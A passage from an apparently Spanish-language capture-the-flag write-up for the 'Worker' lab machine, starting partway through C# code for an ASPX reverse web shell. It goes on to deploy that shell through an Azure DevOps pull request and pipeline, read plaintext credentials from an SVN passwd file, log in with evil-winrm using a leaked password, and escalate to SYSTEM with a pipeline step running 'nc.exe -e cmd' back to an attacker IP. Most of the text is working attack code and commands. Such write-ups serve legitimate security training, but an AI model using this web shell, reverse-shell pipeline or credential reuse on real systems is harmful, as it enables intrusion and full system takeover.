   \OtherTok{[}\NormalTok{DllImport}\OtherTok{(}\StringTok{"advapi32.dll"}\OtherTok{,}\NormalTok{ EntryPoint = }\StringTok{"CreateProcessAsUser"}\OtherTok{,}\NormalTok{ SetLastError = }\KeywordTok{true}\OtherTok{,}\NormalTok{ CharSet = CharSet.Ansi}\OtherTok{,}\NormalTok{ CallingConvention = CallingConvention.StdCall}\OtherTok{)]}
   \KeywordTok{public}\NormalTok{ extern static bool CreateProcessAsUser}\OtherTok{(}\NormalTok{IntPtr hToken}\OtherTok{,} \FunctionTok{String}\NormalTok{ lpApplicationName}\OtherTok{,} \FunctionTok{String}\NormalTok{ lpCommandLine}\OtherTok{,}\NormalTok{ ref SECURITY_ATTRIBUTES lpProcessAttributes}\OtherTok{,}
\NormalTok{       ref SECURITY_ATTRIBUTES lpThreadAttributes}\OtherTok{,}\NormalTok{ bool bInheritHandle}\OtherTok{,} \FunctionTok{int}\NormalTok{ dwCreationFlags}\OtherTok{,}\NormalTok{ IntPtr lpEnvironment}\OtherTok{,}
       \FunctionTok{String}\NormalTok{ lpCurrentDirectory}\OtherTok{,}\NormalTok{ ref STARTUPINFO lpStartupInfo}\OtherTok{,}\NormalTok{ out PROCESS_INFORMATION lpProcessInformation}\OtherTok{);}

   \OtherTok{[}\NormalTok{DllImport}\OtherTok{(}\StringTok{"advapi32.dll"}\OtherTok{,}\NormalTok{ EntryPoint = }\StringTok{"DuplicateTokenEx"}\OtherTok{)]}
   \KeywordTok{public}\NormalTok{ extern static bool DuplicateTokenEx}\OtherTok{(}\NormalTok{IntPtr ExistingTokenHandle}\OtherTok{,}\NormalTok{ uint dwDesiredAccess}\OtherTok{,}
\NormalTok{       ref SECURITY_ATTRIBUTES lpThreadAttributes}\OtherTok{,}\NormalTok{ SECURITY_IMPERSONATION_LEVEL ImpersonationLeve}\OtherTok{,}\NormalTok{ TOKEN_TYPE TokenType}\OtherTok{,}
\NormalTok{       ref IntPtr DuplicateTokenHandle}\OtherTok{);}

   

   \KeywordTok{const} \FunctionTok{int}\NormalTok{ ERROR_NO_MORE_ITEMS = }\DecValTok{259}\OtherTok{;}

   \OtherTok{[}\NormalTok{StructLayout}\OtherTok{(}\NormalTok{LayoutKind.Sequential}\OtherTok{)]}
\NormalTok{   struct TOKEN_USER}
\NormalTok{   \{}
       \KeywordTok{public}\NormalTok{ _SID_AND_ATTRIBUTES User}\OtherTok{;}
\NormalTok{   \}}

   \OtherTok{[}\NormalTok{StructLayout}\OtherTok{(}\NormalTok{LayoutKind.Sequential}\OtherTok{)]}
   \KeywordTok{public}\NormalTok{ struct _SID_AND_ATTRIBUTES}
\NormalTok{   \{}
       \KeywordTok{public}\NormalTok{ IntPtr Sid}\OtherTok{;}
       \KeywordTok{public} \FunctionTok{int}\NormalTok{ Attributes}\OtherTok{;}
\NormalTok{   \}}

   \OtherTok{[}\NormalTok{DllImport}\OtherTok{(}\StringTok{"advapi32"}\OtherTok{,}\NormalTok{ CharSet = CharSet.Auto}\OtherTok{)]}
   \KeywordTok{public}\NormalTok{ extern static bool LookupAccountSid}
   \OtherTok{(}
       \OtherTok{[}\ControlFlowTok{In}\OtherTok{,}\NormalTok{ MarshalAs}\OtherTok{(}\NormalTok{UnmanagedType.LPTStr}\OtherTok{)]} \FunctionTok{string}\NormalTok{ lpSystemName}\OtherTok{,}
\NormalTok{       IntPtr pSid}\OtherTok{,}
\NormalTok{       StringBuilder Account}\OtherTok{,}
\NormalTok{       ref }\FunctionTok{int}\NormalTok{ cbName}\OtherTok{,}
\NormalTok{       StringBuilder DomainName}\OtherTok{,}
\NormalTok{       ref }\FunctionTok{int}\NormalTok{ cbDomainName}\OtherTok{,}
\NormalTok{       ref }\FunctionTok{int}\NormalTok{ peUse }

   \OtherTok{);}

   \OtherTok{[}\NormalTok{DllImport}\OtherTok{(}\StringTok{"advapi32"}\OtherTok{,}\NormalTok{ CharSet = CharSet.Auto}\OtherTok{)]}
   \KeywordTok{public}\NormalTok{ extern static bool ConvertSidToStringSid}\OtherTok{(}
\NormalTok{       IntPtr pSID}\OtherTok{,}
       \OtherTok{[}\ControlFlowTok{In}\OtherTok{,}\NormalTok{ Out}\OtherTok{,}\NormalTok{ MarshalAs}\OtherTok{(}\NormalTok{UnmanagedType.LPTStr}\OtherTok{)]}\NormalTok{ ref }\FunctionTok{string}\NormalTok{ pStringSid}\OtherTok{);}


   \OtherTok{[}\NormalTok{DllImport}\OtherTok{(}\StringTok{"kernel32.dll"}\OtherTok{,}\NormalTok{ SetLastError = }\KeywordTok{true}\OtherTok{)]}
   \KeywordTok{public}\NormalTok{ static extern bool CloseHandle}\OtherTok{(}
\NormalTok{       IntPtr hHandle}\OtherTok{);}

   \OtherTok{[}\NormalTok{DllImport}\OtherTok{(}\StringTok{"kernel32.dll"}\OtherTok{,}\NormalTok{ SetLastError = }\KeywordTok{true}\OtherTok{)]}
   \KeywordTok{public}\NormalTok{ static extern IntPtr OpenProcess}\OtherTok{(}\NormalTok{ProcessAccessFlags dwDesiredAccess}\OtherTok{,} \OtherTok{[}\NormalTok{MarshalAs}\OtherTok{(}\NormalTok{UnmanagedType.Bool}\OtherTok{)]}\NormalTok{ bool bInheritHandle}\OtherTok{,}\NormalTok{ uint dwProcessId}\OtherTok{);}
   \OtherTok{[}\NormalTok{Flags}\OtherTok{]}
   \KeywordTok{public}\NormalTok{ enum ProcessAccessFlags }\OtherTok{:}\NormalTok{ uint}
\NormalTok{   \{}
\NormalTok{       All = }\BaseNTok{0x001F0FFF}\OtherTok{,}
\NormalTok{       Terminate = }\BaseNTok{0x00000001}\OtherTok{,}
\NormalTok{       CreateThread = }\BaseNTok{0x00000002}\OtherTok{,}
\NormalTok{       VMOperation = }\BaseNTok{0x00000008}\OtherTok{,}
\NormalTok{       VMRead = }\BaseNTok{0x00000010}\OtherTok{,}
\NormalTok{       VMWrite = }\BaseNTok{0x00000020}\OtherTok{,}
\NormalTok{       DupHandle = }\BaseNTok{0x00000040}\OtherTok{,}
\NormalTok{       SetInformation = }\BaseNTok{0x00000200}\OtherTok{,}
\NormalTok{       QueryInformation = }\BaseNTok{0x00000400}\OtherTok{,}
\NormalTok{       Synchronize = }\BaseNTok{0x00100000}
\NormalTok{   \}}

   \OtherTok{[}\NormalTok{DllImport}\OtherTok{(}\StringTok{"kernel32.dll"}\OtherTok{)]}
\NormalTok{   static extern IntPtr GetCurrentProcess}\OtherTok{();}

   \OtherTok{[}\NormalTok{DllImport}\OtherTok{(}\StringTok{"kernel32.dll"}\OtherTok{)]}
\NormalTok{   extern static IntPtr GetCurrentThread}\OtherTok{();}


   \OtherTok{[}\NormalTok{DllImport}\OtherTok{(}\StringTok{"kernel32.dll"}\OtherTok{,}\NormalTok{ SetLastError = }\KeywordTok{true}\OtherTok{)]}
   \OtherTok{[}\NormalTok{return}\OtherTok{:}\NormalTok{ MarshalAs}\OtherTok{(}\NormalTok{UnmanagedType.Bool}\OtherTok{)]}
\NormalTok{   static extern bool DuplicateHandle}\OtherTok{(}\NormalTok{IntPtr hSourceProcessHandle}\OtherTok{,}
\NormalTok{      IntPtr hSourceHandle}\OtherTok{,}\NormalTok{ IntPtr hTargetProcessHandle}\OtherTok{,}\NormalTok{ out IntPtr lpTargetHandle}\OtherTok{,}
\NormalTok{      uint dwDesiredAccess}\OtherTok{,} \OtherTok{[}\NormalTok{MarshalAs}\OtherTok{(}\NormalTok{UnmanagedType.Bool}\OtherTok{)]}\NormalTok{ bool bInheritHandle}\OtherTok{,}\NormalTok{ uint dwOptions}\OtherTok{);}

    \OtherTok{[}\NormalTok{DllImport}\OtherTok{(}\StringTok{"psapi.dll"}\OtherTok{,}\NormalTok{ SetLastError = }\KeywordTok{true}\OtherTok{)]}
    \KeywordTok{public}\NormalTok{ static extern bool EnumProcessModules}\OtherTok{(}\NormalTok{IntPtr hProcess}\OtherTok{,}
    \OtherTok{[}\NormalTok{MarshalAs}\OtherTok{(}\NormalTok{UnmanagedType.LPArray}\OtherTok{,}\NormalTok{ ArraySubType = UnmanagedType.U4}\OtherTok{)]} \OtherTok{[}\ControlFlowTok{In}\OtherTok{][}\NormalTok{Out}\OtherTok{]}\NormalTok{ uint}\OtherTok{[]}\NormalTok{ lphModule}\OtherTok{,}
\NormalTok{    uint cb}\OtherTok{,}
    \OtherTok{[}\NormalTok{MarshalAs}\OtherTok{(}\NormalTok{UnmanagedType.U4}\OtherTok{)]}\NormalTok{ out uint lpcbNeeded}\OtherTok{);}

    \OtherTok{[}\NormalTok{DllImport}\OtherTok{(}\StringTok{"psapi.dll"}\OtherTok{)]}
\NormalTok{    static extern uint GetModuleBaseName}\OtherTok{(}\NormalTok{IntPtr hProcess}\OtherTok{,}\NormalTok{ uint hModule}\OtherTok{,}\NormalTok{ StringBuilder lpBaseName}\OtherTok{,}\NormalTok{ uint nSize}\OtherTok{);}

    \KeywordTok{public} \KeywordTok{const}\NormalTok{ uint PIPE_ACCESS_OUTBOUND = }\BaseNTok{0x00000002}\OtherTok{;}
    \KeywordTok{public} \KeywordTok{const}\NormalTok{ uint PIPE_ACCESS_DUPLEX = }\BaseNTok{0x00000003}\OtherTok{;}
    \KeywordTok{public} \KeywordTok{const}\NormalTok{ uint PIPE_ACCESS_INBOUND = }\BaseNTok{0x00000001}\OtherTok{;}
    \KeywordTok{public} \KeywordTok{const}\NormalTok{ uint PIPE_WAIT = }\BaseNTok{0x00000000}\OtherTok{;}
    \KeywordTok{public} \KeywordTok{const}\NormalTok{ uint PIPE_NOWAIT = }\BaseNTok{0x00000001}\OtherTok{;}
    \KeywordTok{public} \KeywordTok{const}\NormalTok{ uint PIPE_READMODE_BYTE = }\BaseNTok{0x00000000}\OtherTok{;}
    \KeywordTok{public} \KeywordTok{const}\NormalTok{ uint PIPE_READMODE_MESSAGE = }\BaseNTok{0x00000002}\OtherTok{;}
    \KeywordTok{public} \KeywordTok{const}\NormalTok{ uint PIPE_TYPE_BYTE = }\BaseNTok{0x00000000}\OtherTok{;}
    \KeywordTok{public} \KeywordTok{const}\NormalTok{ uint PIPE_TYPE_MESSAGE = }\BaseNTok{0x00000004}\OtherTok{;}
    \KeywordTok{public} \KeywordTok{const}\NormalTok{ uint PIPE_CLIENT_END = }\BaseNTok{0x00000000}\OtherTok{;}
    \KeywordTok{public} \KeywordTok{const}\NormalTok{ uint PIPE_SERVER_END = }\BaseNTok{0x00000001}\OtherTok{;}
    \KeywordTok{public} \KeywordTok{const}\NormalTok{ uint PIPE_UNLIMITED_INSTANCES = }\DecValTok{255}\OtherTok{;}

    \KeywordTok{public} \KeywordTok{const}\NormalTok{ uint NMPWAIT_WAIT_FOREVER = }\BaseNTok{0xffffffff}\OtherTok{;}
    \KeywordTok{public} \KeywordTok{const}\NormalTok{ uint NMPWAIT_NOWAIT = }\BaseNTok{0x00000001}\OtherTok{;}
    \KeywordTok{public} \KeywordTok{const}\NormalTok{ uint NMPWAIT_USE_DEFAULT_WAIT = }\BaseNTok{0x00000000}\OtherTok{;}

    \KeywordTok{public} \KeywordTok{const}\NormalTok{ uint GENERIC_READ = }\OtherTok{(}\BaseNTok{0x80000000}\OtherTok{);}
    \KeywordTok{public} \KeywordTok{const}\NormalTok{ uint GENERIC_WRITE = }\OtherTok{(}\BaseNTok{0x40000000}\OtherTok{);}
    \KeywordTok{public} \KeywordTok{const}\NormalTok{ uint GENERIC_EXECUTE = }\OtherTok{(}\BaseNTok{0x20000000}\OtherTok{);}
    \KeywordTok{public} \KeywordTok{const}\NormalTok{ uint GENERIC_ALL = }\OtherTok{(}\BaseNTok{0x10000000}\OtherTok{);}

    \KeywordTok{public} \KeywordTok{const}\NormalTok{ uint CREATE_NEW = }\DecValTok{1}\OtherTok{;}
    \KeywordTok{public} \KeywordTok{const}\NormalTok{ uint CREATE_ALWAYS = }\DecValTok{2}\OtherTok{;}
    \KeywordTok{public} \KeywordTok{const}\NormalTok{ uint OPEN_EXISTING = }\DecValTok{3}\OtherTok{;}
    \KeywordTok{public} \KeywordTok{const}\NormalTok{ uint OPEN_ALWAYS = }\DecValTok{4}\OtherTok{;}
    \KeywordTok{public} \KeywordTok{const}\NormalTok{ uint TRUNCATE_EXISTING = }\DecValTok{5}\OtherTok{;}

    \KeywordTok{public} \KeywordTok{const} \FunctionTok{int}\NormalTok{ INVALID_HANDLE_VALUE = }\DecValTok{-1}\OtherTok{;}

    \KeywordTok{public} \KeywordTok{const}\NormalTok{ ulong ERROR_SUCCESS = }\DecValTok{0}\OtherTok{;}
    \KeywordTok{public} \KeywordTok{const}\NormalTok{ ulong ERROR_CANNOT_CONNECT_TO_PIPE = }\DecValTok{2}\OtherTok{;}
    \KeywordTok{public} \KeywordTok{const}\NormalTok{ ulong ERROR_PIPE_BUSY = }\DecValTok{231}\OtherTok{;}
    \KeywordTok{public} \KeywordTok{const}\NormalTok{ ulong ERROR_NO_DATA = }\DecValTok{232}\OtherTok{;}
    \KeywordTok{public} \KeywordTok{const}\NormalTok{ ulong ERROR_PIPE_NOT_CONNECTED = }\DecValTok{233}\OtherTok{;}
    \KeywordTok{public} \KeywordTok{const}\NormalTok{ ulong ERROR_MORE_DATA = }\DecValTok{234}\OtherTok{;}
    \KeywordTok{public} \KeywordTok{const}\NormalTok{ ulong ERROR_PIPE_CONNECTED = }\DecValTok{535}\OtherTok{;}
    \KeywordTok{public} \KeywordTok{const}\NormalTok{ ulong ERROR_PIPE_LISTENING = }\DecValTok{536}\OtherTok{;}

    \OtherTok{[}\NormalTok{DllImport}\OtherTok{(}\StringTok{"kernel32.dll"}\OtherTok{,}\NormalTok{ SetLastError = }\KeywordTok{true}\OtherTok{)]}
    \KeywordTok{public}\NormalTok{ static extern IntPtr CreateNamedPipe}\OtherTok{(}
        \FunctionTok{String}\NormalTok{ lpName}\OtherTok{,}                                  
\NormalTok{        uint dwOpenMode}\OtherTok{,}                                
\NormalTok{        uint dwPipeMode}\OtherTok{,}                                
\NormalTok{        uint nMaxInstances}\OtherTok{,}                         
\NormalTok{        uint nOutBufferSize}\OtherTok{,}                        
\NormalTok{        uint nInBufferSize}\OtherTok{,}                         
\NormalTok{        uint nDefaultTimeOut}\OtherTok{,}                       
\NormalTok{        IntPtr pipeSecurityDescriptor}
        \OtherTok{);}

    \OtherTok{[}\NormalTok{DllImport}\OtherTok{(}\StringTok{"kernel32.dll"}\OtherTok{,}\NormalTok{ SetLastError = }\KeywordTok{true}\OtherTok{)]}
    \KeywordTok{public}\NormalTok{ static extern bool ConnectNamedPipe}\OtherTok{(}
\NormalTok{        IntPtr hHandle}\OtherTok{,}
\NormalTok{        uint lpOverlapped}
        \OtherTok{);}

    \OtherTok{[}\NormalTok{DllImport}\OtherTok{(}\StringTok{"Advapi32.dll"}\OtherTok{,}\NormalTok{ SetLastError = }\KeywordTok{true}\OtherTok{)]}
    \KeywordTok{public}\NormalTok{ static extern bool ImpersonateNamedPipeClient}\OtherTok{(}
\NormalTok{        IntPtr hHandle}\OtherTok{);}

    \OtherTok{[}\NormalTok{DllImport}\OtherTok{(}\StringTok{"kernel32.dll"}\OtherTok{,}\NormalTok{ SetLastError = }\KeywordTok{true}\OtherTok{)]}
    \KeywordTok{public}\NormalTok{ static extern bool GetNamedPipeHandleState}\OtherTok{(}
\NormalTok{        IntPtr hHandle}\OtherTok{,}
\NormalTok{        IntPtr lpState}\OtherTok{,}
\NormalTok{        IntPtr lpCurInstances}\OtherTok{,}
\NormalTok{        IntPtr lpMaxCollectionCount}\OtherTok{,}
\NormalTok{        IntPtr lpCollectDataTimeout}\OtherTok{,}
\NormalTok{        StringBuilder lpUserName}\OtherTok{,}
        \FunctionTok{int}\NormalTok{ nMaxUserNameSize}
        \OtherTok{);}
 
\NormalTok{    protected void CallbackShell}\OtherTok{(}\FunctionTok{string} \FunctionTok{server}\OtherTok{,} \FunctionTok{int}\NormalTok{ port}\OtherTok{)}
\NormalTok{    \{}

        \FunctionTok{string} \FunctionTok{request}\NormalTok{ = }\StringTok{"Spawn Shell...\textbackslash{}n"}\OtherTok{;}
\NormalTok{        Byte}\OtherTok{[]}\NormalTok{ bytesSent = Encoding.ASCII.GetBytes}\OtherTok{(}\FunctionTok{request}\OtherTok{);}

\NormalTok{        IntPtr oursocket = IntPtr.Zero}\OtherTok{;}
        
\NormalTok{        sockaddr_in socketinfo}\OtherTok{;}
\NormalTok{        oursocket = WSASocket}\OtherTok{(}\NormalTok{AddressFamily.InterNetwork}\OtherTok{,}\NormalTok{SocketType.Stream}\OtherTok{,}\NormalTok{ProtocolType.IP}\OtherTok{,}\NormalTok{ IntPtr.Zero}\OtherTok{,} \DecValTok{0}\OtherTok{,} \DecValTok{0}\OtherTok{);}
\NormalTok{        socketinfo = }\KeywordTok{new}\NormalTok{ sockaddr_in}\OtherTok{();}
\NormalTok{        socketinfo.sin_family = }\OtherTok{(}\NormalTok{short}\OtherTok{)}\NormalTok{ AddressFamily.InterNetwork}\OtherTok{;}
\NormalTok{        socketinfo.sin_addr = inet_addr}\OtherTok{(}\FunctionTok{server}\OtherTok{);}
\NormalTok{        socketinfo.sin_port = }\OtherTok{(}\NormalTok{short}\OtherTok{)}\NormalTok{ htons}\OtherTok{((}\NormalTok{ushort}\OtherTok{)}\NormalTok{port}\OtherTok{);}
\NormalTok{        connect}\OtherTok{(}\NormalTok{oursocket}\OtherTok{,}\NormalTok{ ref socketinfo}\OtherTok{,}\NormalTok{ Marshal.SizeOf}\OtherTok{(}\NormalTok{socketinfo}\OtherTok{));}
\NormalTok{        send}\OtherTok{(}\NormalTok{oursocket}\OtherTok{,}\NormalTok{ bytesSent}\OtherTok{,} \FunctionTok{request}\NormalTok{.Length}\OtherTok{,} \DecValTok{0}\OtherTok{);}
\NormalTok{        SpawnProcessAsPriv}\OtherTok{(}\NormalTok{oursocket}\OtherTok{);}
\NormalTok{        closesocket}\OtherTok{(}\NormalTok{oursocket}\OtherTok{);}
\NormalTok{    \}}

\NormalTok{    protected void SpawnProcess}\OtherTok{(}\NormalTok{IntPtr oursocket}\OtherTok{)}
\NormalTok{    \{}
\NormalTok{        bool retValue}\OtherTok{;}
        \FunctionTok{string}\NormalTok{ Application = Environment.GetEnvironmentVariable}\OtherTok{(}\StringTok{"comspec"}\OtherTok{);} 
\NormalTok{        PROCESS_INFORMATION pInfo = }\KeywordTok{new}\NormalTok{ PROCESS_INFORMATION}\OtherTok{();}
\NormalTok{        STARTUPINFO sInfo = }\KeywordTok{new}\NormalTok{ STARTUPINFO}\OtherTok{();}
\NormalTok{        SECURITY_ATTRIBUTES pSec = }\KeywordTok{new}\NormalTok{ SECURITY_ATTRIBUTES}\OtherTok{();}
\NormalTok{        pSec.Length = Marshal.SizeOf}\OtherTok{(}\NormalTok{pSec}\OtherTok{);}
\NormalTok{        sInfo.dwFlags = }\BaseNTok{0x00000101}\OtherTok{;}
\NormalTok{        sInfo.hStdInput = oursocket}\OtherTok{;}
\NormalTok{        sInfo.hStdOutput = oursocket}\OtherTok{;}
\NormalTok{        sInfo.hStdError = oursocket}\OtherTok{;}
\NormalTok{        retValue = CreateProcess}\OtherTok{(}\NormalTok{Application}\OtherTok{,} \StringTok{""}\OtherTok{,}\NormalTok{ ref pSec}\OtherTok{,}\NormalTok{ ref pSec}\OtherTok{,} \KeywordTok{true}\OtherTok{,} \DecValTok{0}\OtherTok{,}\NormalTok{ IntPtr.Zero}\OtherTok{,}\NormalTok{ null}\OtherTok{,}\NormalTok{ ref sInfo}\OtherTok{,}\NormalTok{ out pInfo}\OtherTok{);}
\NormalTok{        WaitForSingleObject}\OtherTok{(}\NormalTok{pInfo.hProcess}\OtherTok{,} \OtherTok{(}\FunctionTok{int}\OtherTok{)}\NormalTok{INFINITE}\OtherTok{);}
\NormalTok{    \}}

\NormalTok{    protected void SpawnProcessAsPriv}\OtherTok{(}\NormalTok{IntPtr oursocket}\OtherTok{)}
\NormalTok{    \{}
\NormalTok{        bool retValue}\OtherTok{;}
        \FunctionTok{string}\NormalTok{ Application = Environment.GetEnvironmentVariable}\OtherTok{(}\StringTok{"comspec"}\OtherTok{);} 
\NormalTok{        PROCESS_INFORMATION pInfo = }\KeywordTok{new}\NormalTok{ PROCESS_INFORMATION}\OtherTok{();}
\NormalTok{        STARTUPINFO sInfo = }\KeywordTok{new}\NormalTok{ STARTUPINFO}\OtherTok{();}
\NormalTok{        SECURITY_ATTRIBUTES pSec = }\KeywordTok{new}\NormalTok{ SECURITY_ATTRIBUTES}\OtherTok{();}
\NormalTok{        pSec.Length = Marshal.SizeOf}\OtherTok{(}\NormalTok{pSec}\OtherTok{);}
\NormalTok{        sInfo.dwFlags = }\BaseNTok{0x00000101}\OtherTok{;} 
\NormalTok{        IntPtr DupeToken = }\KeywordTok{new}\NormalTok{ IntPtr}\OtherTok{(}\DecValTok{0}\OtherTok{);}
\NormalTok{        sInfo.hStdInput = oursocket}\OtherTok{;}
\NormalTok{        sInfo.hStdOutput = oursocket}\OtherTok{;}
\NormalTok{        sInfo.hStdError = oursocket}\OtherTok{;}
        \ControlFlowTok{if} \OtherTok{(}\NormalTok{DupeToken == IntPtr.Zero}\OtherTok{)}
\NormalTok{            retValue = CreateProcess}\OtherTok{(}\NormalTok{Application}\OtherTok{,} \StringTok{""}\OtherTok{,}\NormalTok{ ref pSec}\OtherTok{,}\NormalTok{ ref pSec}\OtherTok{,} \KeywordTok{true}\OtherTok{,} \DecValTok{0}\OtherTok{,}\NormalTok{ IntPtr.Zero}\OtherTok{,}\NormalTok{ null}\OtherTok{,}\NormalTok{ ref sInfo}\OtherTok{,}\NormalTok{ out pInfo}\OtherTok{);}
        \ControlFlowTok{else}
\NormalTok{            retValue = CreateProcessAsUser}\OtherTok{(}\NormalTok{DupeToken}\OtherTok{,}\NormalTok{ Application}\OtherTok{,} \StringTok{""}\OtherTok{,}\NormalTok{ ref pSec}\OtherTok{,}\NormalTok{ ref pSec}\OtherTok{,} \KeywordTok{true}\OtherTok{,} \DecValTok{0}\OtherTok{,}\NormalTok{ IntPtr.Zero}\OtherTok{,}\NormalTok{ null}\OtherTok{,}\NormalTok{ ref sInfo}\OtherTok{,}\NormalTok{ out pInfo}\OtherTok{);}
\NormalTok{        WaitForSingleObject}\OtherTok{(}\NormalTok{pInfo.hProcess}\OtherTok{,} \OtherTok{(}\FunctionTok{int}\OtherTok{)}\NormalTok{INFINITE}\OtherTok{);}
\NormalTok{        CloseHandle}\OtherTok{(}\NormalTok{DupeToken}\OtherTok{);}
\NormalTok{    \}}
    \KeywordTok{</script>}
\end{Highlighting}
\end{Shaded}

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  Nos ponemos en escucha por el puerto 443

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{rlwrap}\NormalTok{ nc -nlvp 443}
\end{Highlighting}
\end{Shaded}
\item
  Subimos el fichero al proyecto a la rama creada
\item
  Intentamos ir a la url \texttt{http://alpha.worker.htb/shell.aspx}
\end{enumerate}

Aqui vemos un \textbf{404}. Quiere decir que vamos a tener que hacer una pull request. Pinchamos a crear una solicitud de incorporacion de cambio.
Una vez esto echo vemos que podemos Establecer autocomplecion y que podemos aprovar el cambio. Esto quiere decir que tenemos el permisso de
acceptar pull requests.

Si vamos otra vez a \texttt{http://alpha.worker.htb/shell.aspx} vemos que todavia no esta este fichero. Parece ser que la Pipeline no se lanza automaticamente
y que tenemos que ejecutarla manualmente.

Si pinchamos en el menu Pipline y que seleccionamos la \textbf{Alpha-CI} y le damos a \textbf{Ejecutar} y compilamos la rama creada.

ya hemos ganado accesso a la maquina victima.

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{whoami}

\ExtensionTok{iis}\NormalTok{ apppoo\textbackslash{}defaultapppool}
\end{Highlighting}
\end{Shaded}

Vemos que no podemos leer la flag porque no tenemos suficientes derechos.

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{whoami}\NormalTok{ /priv}
\end{Highlighting}
\end{Shaded}

Aqui vemos que el \texttt{SeImpersonatePrivilege} esta activado y que podriamos passar por hay pero en este caso vamos a continuar por la via normal.

\hypertarget{user-pivoting}{%
\subsection*{User pivoting}\label{user-pivoting}}
\addcontentsline{toc}{subsection}{User pivoting}

Si recordamos, cuando hemos analyzado habia una unidad logica \texttt{w:\textbackslash{}}. Vamos a ver si podemos movernos por hay.

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{w}\NormalTok{:\textbackslash{}}
\NormalTok{dir}
\end{Highlighting}
\end{Shaded}

Si miramos los recursos, hay uno interesante en \texttt{w:\textbackslash{}svnrepos\textbackslash{}www\textbackslash{}conf\textbackslash{}passwd} que contiene una serie de usuarios y contraseñas. Entre ellos
\texttt{robisl} que es un usuario del systema.

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{dir}\NormalTok{ C:\textbackslash{}Users}
\ExtensionTok{net}\NormalTok{ user robisl}
\end{Highlighting}
\end{Shaded}

Vemos que el usuario esta en el grupo \texttt{Remote\ Management\ Use} que nos permitiria connectar via \textbf{Evil-WinRM}.

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{evil-winrm}\NormalTok{ -i 10.10.10.203 -u }\StringTok{'robisl'}\NormalTok{ -p }\StringTok{'wolves11'}
\end{Highlighting}
\end{Shaded}

Ya podemos visualizar la flag.

\hypertarget{privilege-escalation-16}{%
\section*{Privilege Escalation}\label{privilege-escalation-16}}
\addcontentsline{toc}{section}{Privilege Escalation}

\hypertarget{rootear-la-maquina-25}{%
\subsection*{Rootear la maquina}\label{rootear-la-maquina-25}}
\addcontentsline{toc}{subsection}{Rootear la maquina}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{whoami}\NormalTok{ /priv}
\end{Highlighting}
\end{Shaded}

Aqui vemos que tenemos menos privilegios que el usuario \texttt{iis\ apppoo\textbackslash{}defaultapppool}. Pero si volvemos a la web
\texttt{http://devops.worker.htb} y que nos connectamos con este usuario, vemos que hay un proyecto.

Si pinchamos a configuration del proyecto y le damos a seguridad, vemos que el usuario es parte de grupo \texttt{Build\ Administrator}. Este
grupo permite enviar commandos como \textbf{nt authority system}.

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  Checkeamos el agente a utilizar

  \begin{figure}
   \includegraphics[width=0.8\linewidth]{images/Worker-grupos-agentes} \caption{Azure DevOps agente Setup}\label{fig:unnamed-chunk-60}
   \end{figure}
\item
  Creamos una nueva canalizacion

  \begin{figure}
   \includegraphics[width=0.8\linewidth]{images/Worker-nueva-canalizacion} \caption{Azure DevOps nueva canalizacion}\label{fig:unnamed-chunk-61}
   \end{figure}
\item
  Codigo en Azure repo

  \begin{figure}
   \includegraphics[width=0.8\linewidth]{images/Worker-azur-repo} \caption{Azure DevOps nueva canalizacion}\label{fig:unnamed-chunk-62}
   \end{figure}
\item
  Seleccionamos el proyecto existente
\item
  Configuramos la canalizacion con Canalizacion inicial

  \begin{figure}
   \includegraphics[width=0.8\linewidth]{images/Worker-Canalizacion-inicial} \caption{Azure DevOps canalizacion inicial}\label{fig:unnamed-chunk-63}
   \end{figure}
\item
  Creamos el script pipeline para hacer un whoami

  \begin{figure}
   \includegraphics[width=0.8\linewidth]{images/Worker-whoami-pipeline} \caption{Azure DevOps pipeline whoami}\label{fig:unnamed-chunk-64}
   \end{figure}
\item
  Guardamos en una nueva rama y ejecutamos

  \begin{figure}
   \includegraphics[width=0.8\linewidth]{images/Worker-guardar-ejecutar} \caption{Azure DevOps guardar pipeline}\label{fig:unnamed-chunk-65}
   \end{figure}
\item
  Miramos el resultado

  \begin{figure}
   \includegraphics[width=0.8\linewidth]{images/Worker-mulit-line-script} \caption{Azure DevOps whoami}\label{fig:unnamed-chunk-66}
   \end{figure}
\end{enumerate}

Aqui comprobamos que script esta lanzado por \texttt{nt\ authority\textbackslash{}system}

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  Uploadeamos un netcat a la maquina victima

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{locate}\NormalTok{ nc.exe}
\FunctionTok{cp}\NormalTok{ /usr/share/sqlninja/apps/nc.exe .}
\end{Highlighting}
\end{Shaded}
\item
  Desde evil-winrm, uploadeamos el fichero

\begin{Shaded}
\begin{Highlighting}[]
\BuiltInTok{cd}\NormalTok{ C:\textbackslash{}Windows\textbackslash{}Temp}
\FunctionTok{mkdir}\NormalTok{ Privesc}
\BuiltInTok{cd}\NormalTok{  Privesc}
\ExtensionTok{upload}\NormalTok{ nc.exe}
\end{Highlighting}
\end{Shaded}
\item
  Nos ponemos en escucha por el puerto 443

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{rlwrap}\NormalTok{ nc -nlvp 443}
\end{Highlighting}
\end{Shaded}
\item
  Editamos el pipeline script

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{trigger}\KeywordTok{:}
\KeywordTok{-}\AttributeTok{ master}

\FunctionTok{pool}\KeywordTok{:}\AttributeTok{ }\StringTok{'Setup'}

\FunctionTok{steps}\KeywordTok{:}
\KeywordTok{-}\AttributeTok{ }\FunctionTok{script}\KeywordTok{:}\AttributeTok{ echo Hello, world!}
\AttributeTok{  displayName 'Run a one-line script'}

\KeywordTok{-}\AttributeTok{ }\FunctionTok{script}\KeywordTok{:}\AttributeTok{ C:\textbackslash{}Windows\textbackslash{}Temp\textbackslash{}Privesc\textbackslash{}nc.exe -e cmd 10.10.14.10 443}
\AttributeTok{  }\FunctionTok{displayName}\KeywordTok{:}\AttributeTok{ }\StringTok{'Run a multi-line script'}
\end{Highlighting}
\end{Shaded}
\item
  Le damos a ejecutar
\end{enumerate}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{whoami}

\ExtensionTok{nt}\NormalTok{ authority\textbackslash{}system}
